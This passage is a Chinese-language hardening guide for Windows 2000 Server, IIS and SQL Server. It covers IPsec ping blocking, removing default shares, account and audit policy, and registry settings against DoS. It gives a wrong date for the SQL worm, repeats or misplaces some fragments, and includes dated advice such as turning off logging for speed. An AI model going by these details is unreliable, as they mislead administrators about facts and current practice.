首先，依次打开：“我的电脑→控制面板→管理工具→本地安全设置”，然后在这里可以看见一项“IP 安全策略，在本地机器”，就是这个。右键点“IP 安全策略，在本地机器”，选择“管理 IP 筛选器列表和筛选操作”。这儿有两个选项卡，先选择“管理 IP 筛选器列表”，点“添加”，在弹出的面板里名称下写上“icmp deny”（名称可以随意写），然后在描述里写上对此项的描述，可以写上“拒绝 ping”。在这里，我就写了“icmp deny”，如图 23 所示。


完成后，又回到了“管理 IP 筛选器列表和筛选器操作”的选项卡，这里可以看到我刚才添加的策略“icmp deny”（如图 26 所示），这时候不要关掉它，我们还要用。

然后再点该面板上的“添加”按钮，会出现一个向导对话框，点“下一步”并按照提示进行选择。这里，我选择“源地址”为“我的 IP 地址”，“目的地址”为“任何 IP 地址”（这样，指定完的策略就是拒绝了本地向其他计算机的 ping，这是为了指定完该策略后可以演示给大家该策略是否制定成功）。

再点“下一步”，这里将选择协议类型。由于我们要拒绝的是 ping，而 ping 命令是靠 ICMP 协议支持的，因此在这里我选择了 ICMP 协议（如图 24 所示）。再点“下一步”，这里勾选上“编辑属性”，然后点“完成”。


在“管理 IP 筛选器列表和筛选器操作”里还有一个选项卡为“管理筛选操作”，现在选择它，然后点“添加”。这里说两句，刚才指定的“icmp deny”指定的只是一个筛选列表，现在我们要指定的“管理筛选操作”则是决定对筛选列表里的某个操作进行“阻止”“许可”或“协商安全”。继续上面的步骤，在“管理筛选操作”里点击“添加”后，按向导填写“名称”和“描述”，建议都填写为“icmp deny”。再下一步，因为我们要拒绝 ping，所以选择“阻止”，然后点击“完成”。接着在“本地安全设置”里创建 IP 安全策略并继续下一步，取消默认勾选的“激活默认响应规则”（图 27 所示）。


图27

然后再下一步，直到弹出“属性”框。在“属性”中点击“添加”，选择“此规则不指定隧道”，网络类型选择“所有网络连接”。身份验证方式选择“此字符串用来保护密钥交换”，并输入字符串（图 28 示例为“python”）。


图28

点击下一步，来到“IP 筛选列表”面板，选择刚才创建的“icmp deny”，并在筛选操作中选择“阻止”。关闭相关对话框后，在“本地安全设置”右侧可看到新增的“icmp deny”。


图29

右键“icmp deny”，选择“指派”后策略生效。运行 cmd.exe 并 ping 目标地址，会看到“Destination host unreachable”等提示（图 30）。


图30

再到其他机器 ping 本机 IP，会看到“Request timed out.”（图 31），说明屏蔽成功。


图31

如果不想使用该策略，可在“本地安全策略设置”中右键该 IPsec 策略选择“不指派”。随后文章继续介绍 IPsec 的作用与原理：IPsec 通过对 IP 数据报进行封装与加密来保护通信，可用于限制端口、控制访问等场景；其添加位置通常与 TCP/IP 报文结构相关。

给数据包新创建一个数据包包头，然后把自己添加到这个新的包头后面。这样的话，就是说，IPsec 的数据被添加在新包头与原 IP 包之间。

> **小提示：** 即使在网上传送的是 TCP 协议封装的数据，为了能使其在网上传送，也必须使用 IP 协议再对其进行封装。因此，才会在一个数据包中既出现 TCP 包头又出现 IP 包头。

路由器连接内部网的一端是一个受保护的网络，另一端则是不安全的公共网络。两个这样的路由器建立起一个安全通道，通信就可以通过这个通道从一个本地的保护子网发送到一个远程的保护子网，这就形成了一个虚拟专用网（VPN）。

OK，关于 IPsec 就说这么多吧。如果有兴趣的话，就去查看一些关于 IPsec 和 VPN 的相关资料吧。

本文到此结束了，希望大家能够喜欢。我们菜鸟们对 Windows 2000 的斗争却永无终结，如果小弟我在这里写的这些东西能够给各位读者一些帮助的话，那么我就满足了！

当 IPsec 用于路由器时，就可以建立虚拟专用网（VPN）。


## Win 2000 安全前奏——版本的选择及安装前的九个问题

Windows 2000 的服务器在目前的服务器市场中占了相当大的比例，原因有很多，如：它操作简单、易于管理、功能强大等等。但是，在带来利润的同时，微软面对更多的是大家对 Windows 2000 Server 安全性的指责和担忧。难道 Windows 2000 的安全性就真的那么差吗？我可不这么认为！说到底，网络的安全取决于个人因素和环境因素的双方配合得当与否。如果配置得当，Windows 2000 的服务器还是相当安全的。

如果你想安装、配置一台提供简单 Web 服务的 Windows 2000 Server 而又一筹莫展的话，不用着急，只需 Follow me！我将手把手地带你构建一台安全的 Windows 2000 Server 服务器。不过要说明的一点是，世界上没有绝对的安全，我们的目标是达到如下的安全级别就足够了：能阻止绝大多数黑客的非法入侵系统。

### 一、版本选择，保持原汁原味

选择合适的版本是安装配置 Windows 2000 的第一步。国内的大多数使用者，因为不习惯英文界面的操作，而选择安装了 Windows 2000 Server 中文版。但是你可知道，从这第一步开始，你就已经种下了安全隐患的种子？大家知道微软一向是以 Bug 和 Patch 著称的，过不了几天，就会有一个新的漏洞“问世”，紧跟着微软就会发布相应的补丁。当然，首先发布的肯定是英文版的补丁，而其他语言版本的补丁一般会延迟一段时间。而在这一段时间里，我们的机器对攻击者来说，不是放在那里赤裸裸地任人宰割吗？所以，我强烈建议大家尽量安装英文版。

还有一点，无论是什么语言版本，请不要安装任何 Beta 版本，因为大多数 Beta 版本的操作系统都会有严重的安全缺陷。

### 二、安装系统，九条金科玉律要记清

在安装系统之前，有九件事你是要注意的，它们分别是：

- 1、清楚系统要求  
  首先，我们一起来看看 Windows 2000 Server 对系统的要求：  
  133MHz 或更高的 Pentium 兼容 CPU，至少有 256MB 的 RAM（也支持 128MB；最大支持 4GB），2GB 的硬盘，至少有 1.0GB 的空闲空间（如果你是通过网络进行安装，将需要额外的硬盘空间），Windows 2000 Server 最多支持在一台机器上有 4 个 CPU，VGA 分辨率或者更高档次分辨率的监视器；CD-ROM 驱动器，推荐 12 速或者更快的速度；如果计算机不支持从光盘启动安装程序，则还要求有高密度的 3.5 寸软盘；如果从网络安装，需要一个或多个与 Windows 2000 Server 兼容的网卡和相关电缆。  
  在安装之前，最好确保你的机器硬件在 Windows 2000 Server 的硬件兼容性列表（HCL）范围内，因为微软只对那些列在 Windows 2000 HCL 中的设备提供经过测试的驱动程序。如果使用了没有列在 HCL 中的硬件，在安装过程中或者安装之后，可能会引发一些问题，会威胁到系统的安全性能和稳定运行。

- 2、选择安装途径  
  安装 Windows 2000 Server 不外乎两种途径：一种是全新安装，另一种是从其他版本的 Windows 升级到 Windows 2000 Server（如从 Windows NT Server 3.51 或 Windows NT Server 4.0 上升级等）。  
  但是，为了避免升级以后带来的种种问题，建议执行全新安装，最好是从格式化过的硬盘上安装。

- 3、硬盘分区的问题  
  有些网管在装系统的时候总是“偷懒”，硬盘只做一个分区，直接安装系统。这样做会带来很大的风险，例如：万一发生 IIS 缓冲区溢出，会直接威胁到系统安全。建议至少 3 个分区（最好是 4 个），如 C、D、E、F，各分区的安装建议如下：  
  C 盘装系统（2G 以上空间），D 盘装 IIS，E 盘为 FTP，F 盘放一些重要数据。

- 4、文件格式问题  
  Windows 2000 Server 既支持 FAT 格式，也支持 NTFS 格式。但是我们建议采用 NTFS 格式。为什么呢？因为 NTFS 格式比 FAT 格式多了安全控制功能，可以对不同的文件、文件夹设置不同的访问权限，并且可以启用 EFS（Encrypt File System）来加密文件，使得只有授权用户才可以访问，从而提高系统的安全性。  
  而且最好在安装过程中根据系统提示一步到位地格式化成 NTFS 分区格式，而不要先安装成 FAT 格式再转化为 NTFS 格式，因为这样做在有些情况下会出现转化不成功，导致数据丢失，甚至系统崩溃。  
  小心 NTFS 分区带来的麻烦：虽然 NTFS 有很多优越性，但也有它的不利一面，如目前大多数反病毒软件在开机启动后，没能提供对 NTFS 分区的病毒查杀功能。这样一旦系统中了恶性病毒而导致系统不能正常启动，后果会比较严重。因此，我们平时要做好防病毒工作，防患未然。  
  另外还要提醒大家，ADS（NTFS 交换数据流）是 NTFS 的一个特征，它是为了和 HFS 兼容而设计的。可是由于比较难于被发现，所以对于管理员来说是一种危险。29A 的 Bennie 和 Ratter 已经发布了一种叫做 W2K.Stream 的病毒，这个病毒就是利用 ADS 的，一定要做好防病毒工作。

- 5、多系统的问题  
  如果机器要作为服务器，那么我强烈建议你只安装一个操作系统。因为安装两个或两个以上的操作系统，会给黑客创造很多机会。有心的黑客可能会用 DDoS 攻击或其他手段，成功地让你的系统重启，并进入另一个安全配置较差或根本没配置过的系统，从而击败你的系统。

- 6、安装时的网络连接问题  
  Win2000 在安装时存在这样一个问题：当我们输入 Administrator 的密码之后，系统就建立了 ADMIN$ 共享，但是你刚刚输入的密码并没有“生效”，这种情况一直持续到系统再次启动。也就是说，在重启之前的这个过程中，任何人都可以通过 ADMIN$ 进入机器。  
  所以，在做完基本的安全配置之前，请不要连入网络。因为这个时候，真的可以说是“人为刀俎，我为鱼肉”。

- 7、修改默认路径  
  我们都知道，Windows 2000 的默认路径为（假如 C 是系统盘）`C:\Winnt`，我们可以修改为 `C:\win03478` 等无规律的名称。这样也在一定程度上加强了对系统的保护。

- 8、安装过程中的组件选择问题  
  `<1>` 在 Windows 2000 Server 中，IIS 是默认安装的（而在即将发布的 Windows Server 2003 中，IIS 6.0 默认是不被安装的），这就好像在你的家门上开了一扇大门。所以，我们应该对 IIS 做一些基本的安全配置。而其中的第一步，就是修改默认安装路径，把它从系统所在分区“搬”出去。  
  > **注意：** 在安装过程中，如果选择默认安装 IIS，我们是没法修改路径的。除非通过自动安装脚本的方法才可以改变路径。所以，我们这个时候去掉 IIS 前面的勾，不安装 IIS。  
  `<2>` 其他组件：对于一般的 Web 服务，以下几个服务是不必要的，而且是极其危险的，应该慎重对待或者干脆关闭：Indexing Service、FrontPage 2000 Server Extensions、Internet Service Manager（HTML）。

- 9、补丁的安装时间  
  补丁的安装应该在安装完所有需要的组件和应用程序以后，这是因为补丁程序往往要替换或者修改一些系统文件。如果先安装补丁再安装应用程序，有可能导致补丁无效。

### 三、考虑物理安全性

很多时候，可能你觉得你的服务器已经配置得相当“完美”了，但是你的系统还是被击败了，为什么呢？因为你忘了考虑机器的物理安全性问题！如果把防火墙放到一个公开场合，这对系统安全性是一个很大的威胁；如果有人无意中把一张带有病毒的软件盘插入机器；如果有人（你朋友、你公司的员工）动手删除了你机器上的重要文件……等等，这都足以让你的服务器被击败，不是吗？

要是能物理地接触一台机器的话，要获得超级权限是相当容易的，所以物理安全性一定不可轻视。

请对照以下问题，检查自己网络的物理安全性：

- 你的防火墙是在一间上了锁的房间吗？服务器呢？
- 网络设备（如路由器、Web 服务器、FTP 服务器）被关严和监控了吗？
- 有人单独工作在敏感区域吗？

注意上面几个问题，完成安装后，我们再做一些基本的安全配置。

## 主机出征——安全配置 Win 2000，未亡羊先补牢

实践证明，安装好 Windows 2000 Server 之后，默认的配置是极不安全的，我们要进行一些基本的配置，具体如下：

### 一、彻底删除缺省共享

在 Windows 2000 Server 中，默认有如下几个共享：C$、D$、E$、F$……还有 ADMIN$、IPC$。这些共享对系统安全是个很大的威胁，尤其是 IPC$ 和 ADMIN$。我们可以在“计算机管理”→“共享”中删除掉它们。但是，这样还是没有从根本上解决问题，因为等我们重新启动的时候，你就会发现它们又跑出来了。那么我们怎么样“彻底”地删除这些共享呢？我向大家介绍下面两种方法：

- 利用批处理文件  
  在记事本中输入下面内容：

```bat
net share c$ /delete
net share d$ /delete
net share e$ /delete
net share f$ /delete
net share ipc$ /delete
net share admin$ /delete
```

然后任取一个文件名，以 `.bat` 保存，如 `noshare.bat`，然后将这个 `noshare.bat` 放到“开始”→“启动”文件夹里面。这样每次开机的时候，系统就会自动删除这几个共享。

- 修改注册表键值  
  禁止 C$、D$、E$ 之类的缺省共享，可以通过修改如下注册表键值：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareServer, REG_DWORD, 0x0
```

要禁止 ADMIN$ 缺省共享，修改如下键值：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareWks, REG_DWORD, 0x0
```

要限制 IPC$ 缺省共享，修改如下键值：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
restrictanonymous REG_DWORD
0x0 缺省
0x1 匿名用户无法列举本机用户列表
0x2 匿名用户无法连接本机 IPC$ 共享
```

> **注：** 一般并不建议使用这种办法，因为这样可能会造成 SQL Server 等依赖匿名或默认连接的服务不可用。可使用工具测试系统是否存在相关风险（文中给出示例链接与 dumpusers 工具）。

### 二、根据需要来选择打开的端口

端口可以说是计算机的第一道屏障，所以端口的正确配置对整个系统的安全至关重要。在满足服务的前提下，开的端口越少，安全性相对越高。步骤示例：网卡“属性”→TCP/IP→高级→选项→TCP/IP 筛选，选中启用 TCP/IP 筛选并按需配置。

### 三、账户策略

- 系统开放的账号要尽可能少，并严格控制账号权限。
- 重命名 Administrator 账号，使用不易猜测的用户名。
- 设置“陷阱账户”（如新建名为 Administrator 的普通用户），并配置复杂口令与告警策略。
- 除原 Administrator 外，再增加一个管理员组账号以便应急恢复。
- 禁用 Guest 账号并重命名，移出 Guest 组，设置复杂口令。
- 设置强口令：兼顾复杂度与可记忆性。
- 必须定期更改口令。
- 设置账号锁定和复位，防止暴力攻击。

### 四、安全日志

一个合格的管理员应该设置合理的安全策略，并且定期查看日志文件。在“本地安全策略→审核策略”中打开必要审核项。

| 审核项 | 成功 | 失败 |
|---|---|---|
| 账户管理 | 成功 | 失败 |
| 登录事件 | 成功 | 失败 |
| 对象访问 |  | 失败 |
| 策略更改 | 成功 | 失败 |
| 特权使用 |  | 失败 |
| 系统事件 | 成功 | 失败 |
| 目录服务访问 |  | 失败 |
| 账户登录事件 | 成功 | 失败 |

审核项目并非越多越好，应在“可用性”和“安全性”之间平衡。建议重点配置密码策略与账户锁定策略，并关注异常登录、权限失败、服务崩溃/重启等日志迹象。

### 五、目录文件权限

由于一开始我们就采用了 NTFS 格式，这就为后面进行细粒度目录与文件权限控制提供了基础。

的文件权限设置打好了基础。Win2000 中的访问权限分为：读取、写入、读取及执行、修改、列目录、完全控制。在默认情况下，大多数文件夹对所有用户（Everyone 组）是“Full Control”，所以我们必须对这里的权限进行重设。

为用户重新分配权限的一个基本前提和原则是：尽量使权限最小化，即在不影响用户正常工作的前提下给他尽量少的权限。

- 1. 权限具有累加性：如果 A 用户同时属于 B、C 两个用户组，那么 A 既有 B 用户组的权限，又有 C 用户组的权限。
- 2. “拒绝”（在 Windows 2000 英文版中叫做“Deny”，在 NT4 中是“No Access”）的权限最高。也就是说，假设 A 用户属于 B、C、D 三个组，B、C 两个组对 R 资源是“完全控制”权限，但 D 组却被设置为拒绝访问，那么 A 用户将无法访问 R 资源。因为 Deny 最高，所以请慎重使用“拒绝”权限。

### 六、停掉所有不必要的服务

在 Windows 2000 中，一些服务默认是被打开的，这无疑大大降低了 Windows 2000 的安全性。可喜的是，微软在即将发布的新操作系统 Windows Server 2003 中，所有服务默认都是关闭的。需要什么服务必须由管理员自己手动打开。

- 1、Task Scheduler：这个服务一般是用不到的（不过执行备份计划的时候，没它可不行），所以我们可以考虑停掉它。攻击者可以利用它来达到一些“奇妙”的效果，例如在某时刻建立一个预先指定的管理员账户。
- 2、LANManServer：这个服务对于不开 Web 和 FTP 服务的服务器来说一般也是用不到的，但它会带来一些攻击面（如“SMB 降级攻击”）。
- 3、还有一些其它服务也是很危险的。总之，不需要的服务，统统关掉！

## 具体细节安全攻略

### IIS 与 SQL Server

### 一、IIS 的安装和安全配置

我们都知道，黑客对于 Win2000 的攻击，有相当一部分是“借助”了 IIS 的“懦弱”才能得逞，那么，对 IIS 的配置就显得很重要了。我们一起来看看如何把 IIS 的风险降到最低，性能发挥到最佳！

我们在安装系统的时候就提到过，当时是选择不安装 IIS 的。所以现在要从组件里选择安装它。安装时要注意：对于 SMTP 和 NNTP，如果不打算使用服务器转发邮件和提供新闻组服务，请取消前面的勾，不要安装，因为它们可能带来新的漏洞。

按照安装系统时的“规划”，我们把它放在 D 盘，可以任选给 inetpub 取任意命名，如 D:\inet90576，这样会更安全些。

安装完成以后，你还要跟着我做以下工作：

- 1、删除 Scripts 等等安装时默认的虚拟目录；删除危险的 IIS 组件。默认安装的有些 IIS 组件可能会造成安全威胁，应该从系统中去掉，例如：
  - Internet 服务管理器（基于 Web 的 IIS 服务器管理页面）
  - 样本页面和脚本（可被用来从 Internet 上执行应用程序和浏览服务器）
  - Internet 打印（会增加可被利用的可能）
- 2、在 IIS 管理器中删除必须之外的任何无用映射，如 htr、htw、idq、ida 等所有不需要的映射。一般来说可以精简映射到只剩 asp。
- 3、为 IIS 中的文件分类设置权限。首先在操作系统级别为 IIS 文件设置必要权限，其次在 IIS 管理器中为它们设置权限。
  - 对一个文件夹永远不应同时设置写和执行权限。
  - Web 站点上不同类型文件应建立独立目录并分配适当权限。
  - Scripts 目录：包含 asp、vbs、cgi 等脚本文件，设置“纯脚本”执行权限。
  - BIN 目录：包含二进制执行文件，设置“脚本和可执行程序”执行权限。
  - Static 目录：包括所有静态文件，如 HTM 或 HTML，为这个文件夹设置“读权限”。
- 4、建立一个正式的备份策略，定期进行备份非常必要。可以把备份分两份，一个备份可以在本机的其它盘中，把权限设置为 Administrators；另一个备份可以是光盘、磁带或者局域网中的其他机器硬盘等其它安全的地方。
- 5、为了防止 IIS 负荷过高而导致服务器满负荷死机的情况出现，我们在“性能”中打开 CPU 限制，例如可以将 IIS 的最大 CPU 使用率限制在 65%—70%。
- 6、最重要也最容易忘记的一点，就是安装新的 Service Pack 后，IIS 的应用程序映射应重新设置。原因很简单：安装新的 Service Pack 后，有些应用程序映射又会出现，导致重新出现安全漏洞。千万别忘了。

### 7、修改默认 Banner

IIS Banner 的 DLL 文件放在 `C:\WINNT\SYSTEM32\INETSRV\` 目录下面，其中对应关系如下：

| 服务 | 文件路径 |
|---|---|
| WEB | `C:\WINNT\SYSTEM32\INETSRV\W3SVC.DLL` |
| FTP | `C:\WINNT\SYSTEM32\INETSRV\FTPSVC2.DLL` |
| SMTP | `C:\WINNT\SYSTEM32\INETSRV\SMTPSVC.DLL` |

Notes：修改的时候必须停止 IIS 服务，我们可以使用命令 `iisreset /stop`。另外，由于 2000 系统后台文件保护机制的作用，当系统发现重要 DLL 文件被修改后会尝试用 `%SYSTEMROOT%\system32\dllcache` 目录下的备份文件进行恢复，所以在修改前还需要事先删除 `%SYSTEMROOT%\system32\dllcache` 目录下的同名文件。这一点不能忘，否则就白做了。

- 8、保护 IIS 安全的两款优秀工具：IIS Lockdown Tool 和 URLScan Tool。

### 首先，介绍一下 IIS Lockdown Tool

IIS Lockdown Tool 可以到微软网站下载：  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=43955

IIS Lockdown Tool 有如下功能和特点：最基本功能是帮助管理员设置 IIS 安全性，可以在 IIS4 和 IIS5 上使用；即使系统没有及时安装所有补丁，也能有效防止 IIS4 和 IIS5 的已知漏洞；帮助管理员去掉对本站不必要的一些服务，使 IIS 在满足本网站需求的情况下运行最少的服务；具有两种使用模式：快捷模式和高级模式。快捷模式直接帮助管理员设置好 IIS 安全性，在设置完成以后，ASP 不能运行，所以该模式适合只有 HTML 和 HTM 静态网页的网站使用；高级模式允许管理员自己设置各种属性，设置得当时，对 IIS 系统任何功能没有影响。

### 关于 URLScan Tool，可以在微软网站下载，地址如下：

http://www.microsoft.com/technet/treeview/default.asp?url=/technet/security/tools/tools/urlscan.asp

基本功能：过滤非法 URL 请求；通过设定规则，可以辨别哪些 URL 请求是合法的、哪些是非法的；这样就可以针对你的网站制定合适的 URL 请求规则；同时当有新的漏洞出现时，可以更改这个规则，达到防御新漏洞的效果。程序提供一套 URL 请求规则，这个规则包含已经发现的漏洞利用特征……

协助管理员设置规则；这里值得注意的是这个软件不能选择安装路径。安装完成以后，可以在 `System32/InetSrv/URLScan` 目录下找到以下文件：

- `urlscan.dll`：动态连接库文件；
- `urlscan.inf`：安装信息文件；
- `urlscan.txt`：软件说明文件；
- `urlscan.ini`：软件配置文件。

至于具体配置和使用，我就不再赘述。网上有大量相关教程和资源，在这里只是提醒大家不要忘了使用它们来保护好你的 IIS。通过上面的配置，IIS 的安全性大大提高了，我们还可以通过一些设置来提高 IIS 执行效率。

### 二、提高 IIS 执行效率

要提高 IIS 的执行效率，大家可以参考如下建议：

- 启用 HTTP 的持续作用可以改善 15%~20% 的执行效率。
- 不启用记录可以改善 5%~8% 的执行效率。
- 使用“独立”的处理程序会损失 20% 的执行效率。
- 增加快取记忆体的保存档案数量，可提高 Active Server Pages 的效能。
- 尽量不要使用 CGI 程序。
- 增加电脑 CPU 数量。
- 请不要启用 ASP 侦错功能。
- 静态网页采用 HTTP 压缩，大约可以减少 20% 的传输量。

### 1、启用 HTTP 的持续作用

启用 HTTP 的持续作用（Keep-Alive）时，IIS 与浏览器的连接不会断线，可以改善执行效率，直到浏览器关闭时连接才会断线。因为维持 Keep-Alive 状态时，在每次用户端请求时都不需要重新建立新连接，所以将改善服务器效率。此功能为 HTTP 1.1 预设功能，HTTP 1.0 加上 Keep-Alive Header 也可以提供 HTTP 持续作用功能。

启用步骤如下：在“Internet 服务管理员”中，选取整个 IIS 或 Web 站台，在“内容”中的“主目录”中，选中“HTTP 的持续作用”选项。

### 2、不启用记录

不启用记录可以改善 5%~8% 的执行效率。设定步骤如下：在“Internet 服务管理员”中，选取整个 IIS 或 Web 站台，在“内容”中的“主目录”页，确认不要选中“启用记录”选项。

### 3、设定非独立的处理程序

使用“独立”的处理程序会损失 20% 的执行效率，此处所谓“独立”是指将“主目录”“虚拟目录”页的应用程序保护选项设定为“高（独立的）”时。因此“应用程序保护”设定为“低（IIS 处理程序）”时执行效率较高。设定非“独立”处理程序的步骤如下：在“Internet 服务管理员”中，选取整个 IIS、Web 站台或应用程序的起始目录，在“内容”之“主目录”“虚拟目录”页，设定应用程序保护选项为“低（IIS 处理程序）”。

### 4、调整快取（Cache）记忆体

由于 IIS 5.0 将静态网页资料暂存在快取（Cache）记忆体中，调整快取（Cache）记忆体的保存档案数量可以改善执行效率。ASP 指令档案执行后也会暂存在快取（Cache）记忆体中以提高执行效能。增加快取记忆体保存档案数量，可提高 Active Server Pages 之效能。可以设定所有在整个 IIS、“独立”Web 站台或“独立”应用程序上执行之应用程序的快取记忆体档案数量。

设定快取（Cache）功能步骤如下：在“Internet 服务管理员”中选取整个 IIS、“独立”Web 站台或独立“应用程序”的起始目录，在“内容”之“主目录”或“虚拟目录”页按下“设定”按钮，即可由“处理程序选项”页设定“指令档快取记忆体”。

设定快取（Cache）记忆体档案数量步骤如下：在“Internet 服务管理员”中，选取整个 IIS 或 Web 站台的起始目录，在“内容”之“服务器扩充程序”页按下“设定”按钮，即可设定快取（Cache）记忆体档案数量。

### 5、请尽量不要使用 CGI 程序

使用 CGI 程序时，因为处理程序（Process）需不断地产生与摧毁，造成执行效率不佳。一般而言，执行效率比较如下：静态网页（Static）：100；ISAPI：50；ASP：10；CGI：1。换句话说，ASP 比 CGI 可能快 10 倍，因此不使用 CGI 程序可以改善 IIS 执行效率。以弹性（Flexibility）而言：ASP > CGI > ISAPI > 静态网页（Static）。以安全（Security）而言：ASP（独立）= ISAPI（独立）= CGI > ASP（非独立）= ISAPI（非独立）= 静态网页（Static）。

### 6、增加电脑 CPU 数量

根据微软测试报告，增加 IIS 5.0 电脑 CPU 数量，执行效率会几乎成正比提升。换句话说，两颗 CPU 的 IIS 5.0 电脑执行效率几乎是一颗 CPU 电脑的两倍，四颗 CPU 的 IIS 5.0 电脑执行效率几乎是一颗 CPU 电脑的四倍。将静态网页资料暂存于快取（Cache）记忆体中，并调整快取（Cache）记忆体保存档案数量，可以改善执行效率。

### 7、请尽量不要启用 ASP 侦错功能

不启用 ASP 侦错功能可以改善执行效率。步骤如下：在“Internet 服务管理员”中，选取 Web 站台或应用程序起始目录，按右键选择“内容”，按“主目录”“虚拟目录”或“目录”页，按下“设定”按钮，选择“应用程序侦错”页，确认“启用 ASP 服务器端指令侦错”“启用 ASP 用户端指令侦错”选项没有被选中。

### 8、静态网页采用 HTTP 压缩

静态网页采用 HTTP 压缩，大约可以减少 20% 的传输量。HTTP 压缩功能启用或关闭是针对整台 IIS 服务器来设定的。用户端使用 IE 5.0 浏览器连接到已启用 HTTP 压缩的 IIS 5.0 Web 服务器，才有 HTTP 压缩功能。启用步骤如下：在“Internet 服务管理员”中，选取电脑的“内容”，在“主要内容”之下选取“WWW 服务”，然后按“编辑”按钮。在“服务”页上，选取“压缩静态档案”，可以压缩静态档案，不选取“压缩应用程序档案”。动态产生的内容档案（压缩应用程序档案）也可以压缩，但是要耗费额外 CPU 处理时间，若 `%Processor Time` 已经百分之八十或更多时，建议不要压缩。

### 三、SQL Server 安全攻略

关于 SQL Server 的配置，我们可以按照如下 10 步去做：

### 1、安装最新的 Service Pack

相信大家不会忘记 2002 年 1 月 25 日震惊全球的“SQL overflow”蠕虫攻击，给全球带来 12 亿美金损失。这个蠕虫利用 SQL Server 2000 的一个漏洞，对网络上的 SQL 数据库进行攻击，直接导致域名服务器（DNS）瘫痪，银行自动提款机中断，信用卡收付款系统出现故障，在中国、韩国等亚洲国家发生互联网瘫痪事件……但是微软早就发布过相应补丁，安装微软 Q323875 补丁和 Q323875_SQL2000_sp2_en.exe，就完全可以杜绝它的发作和传播。

### 2、用 MBSA（Microsoft Baseline Security Analyzer）扫描你的系统

- 将创建 cmdexec 工作的权力授予 sysadmin 之外的角色；
- 空口令；
- 弱的验证模式；
- 授予管理员组过多的权限；
- SQL Server 数据目录错误的 ACLs；
- 安装文件中的明文口令；
- 授予 Guest 帐户过多的权限；
- SQL Server 运行在作为域控制器的服务器上；
- 对 Everyone 组不恰当的配置；
- 对 SQL Server 服务帐户不正确的配置；
- 遗漏掉的 Service Pack 和安全更新；

### 3、应用 Windows 验证模式

“尽量在 SQL Server 的连接中使用 Windows 验证模式。”这样可以通过限制到 Windows 的连接来保护你的 SQL Server，在安装过程中避免大多数来自 Internet 的攻击。启用 Windows 验证模式可以在服务器属性的 Security 标签中将 Authentication 设为“Windows only”。

### 4、保持你的服务器孤立，并且经常备份

物理上和逻辑上的孤立是 SQL Server 安全的基础。装有数据库的机器应该在一个物理上被保护的位置，最好是一个上锁的房间，并且有监视器和入侵检测系统。数据库应该放在公司局域网中的安全区域，不要直接连接到 Internet，并经常性做好备份。

### 5、给 SA 一个强密码

无论你的 SQL Server 是否采用 Windows 验证模式，都应该给 SA 一个强密码。这样可以保证即使将来的 SQL Server 被重新配置为混合模式时，SA 的空口令或者弱口令不会暴露出来。

### 6、限制 SQL Server 服务特权的级别

### 7、在你的防火墙上禁止 SQL Server 端口

默认安装后的 SQL Server 监听 TCP 端口 1433 和 UDP 端口 1434。配置你的防火墙过滤掉所有到这些端口的数据包，其它所有与已命名实例有关的端口都应该在防火墙中被禁止掉。

### 8、使用最安全的文件系统

推荐在 NTFS 分区安装 SQL Server。NTFS 比 FAT 文件系统更稳定、更易恢复，而且可以启用一些安全功能，如目录 ACLs 和文件加密（EFS）。在安装过程中，SQL Server 如果检测到 NTFS，就会在注册表键中设置合适的 ACLs，这些权限是不能被更改的。

运用 EFS 以后，数据库文件可以被加密，只有该帐户可以解密这些文件。如果你需要改变运行 SQL Server 功能的帐户，你应该先使用旧帐户解密文件，然后在新帐户下加密。

### 9、删除或者安全地防止旧的安装文件

SQL Server 的安装文件可能包含明文或者弱加密的证书，或者其它安装过程中记录的敏感配置信息。这些 Log 文件的位置取决于你所安装的 SQL Server 版本。如果你安装的是 SQL Server 2000，那么下面这些文件可能会被影响：sqlstp.log、sqlsp.log、setup.iss。默认安装后它们可以在如下位置找到：`<systemdrive>:\Program Files\Microsoft SQL Server\MSSQL\Install`。

### 10、审计所有到 SQL Server 的连接

SQL Server 可以记录所有时间信息以供管理员查看。至少你应该记录所有到 SQL Server 的失败登录企图，并且经常查看它们。如果可能，保存这些日志到另外一块硬盘。经过上面的配置之后，别忘了重启，这样它们才会生效。

## 进一步配置，与黑客面对面

在安装好系统之后，我们进行过一次初步安全配置，但这里的进一步配置是直接与黑客入侵打交道。也就是说每一步配置都会影响黑客入侵的成功与否。而这些黑客可能是远程的，也有可能是本地的，所以你如果要将服务器连接到网络上，就更需要注意以下内容。

### 一、从系统入手，充分利用自身资源

- 1. 卸掉 NETBEUI 协议、IPX/SPX 协议，只保留 TCP/IP 协议。
- 2. 保护注册表。
- 3. 禁止显示上次登录的用户名。

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon`  
`Don’t Display Last User Name = 1`

隐藏上次登录控制台的用户名。其实在本地安全策略中也存在该选项：`Don't Display Last User Name In Logon Screen`。

### 4、关闭登录证书的缓存

Windows 2000 通常在本地缓存一个用户的登录证书，这样如果域控制器失败或联系不通时，这个用户仍可以登录到本地工作。但这可能导致安全风险：离职用户即使账户被删除，仍可能在断网情况下登录本机。关闭缓存的方法：打开 Local Security Policy，将 `Number Of Previous Logons To Cache` 设置为 0。

### 5、建立一个登录交互信息

可以配置你的系统向任意一个交互式登录用户显示信息。这个信息并不能阻止攻击者，但可作为已采取安全保护措施的证明。设置路径在 Local Security Policy 的 Security Options 中，主要包括以下两项：

- `Message Text For Users Attempting To Log In`：用户按下 Ctrl+Alt+Delete 登录时看到的文本信息。
- `Message Title For Users Attempting To Log In`：包含信息文本的对话框标题。

### 6、关机时清除页文件

Windows 2000 中的页文件在系统运行时会被用作存储器，敏感信息可能被写入其中并在未覆盖时被恢复。因此有必要在关机时清除它。在 Local Security Policy 中可设置：`Clear Virtual Memory Pagefile When System Shut down`。

### 7、如何预防 DoS 攻击

在注册表 `HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 中更改以下值，在一定程度上可以帮助防御 DoS 攻击：

```text
SynAttackProtect REG_DWORD 2
EnablePMTUDiscovery REG_DWORD 0
NoNameReleaseOnDemand REG_DWORD 1
EnableDeadGWDetect REG_DWORD 0
KeepAliveTime REG_DWORD 300000
PerformRouterDiscovery REG_DWORD 0
EnableICMPRedirects REG_DWORD 0
```

### 8、对付 ICMP 攻击

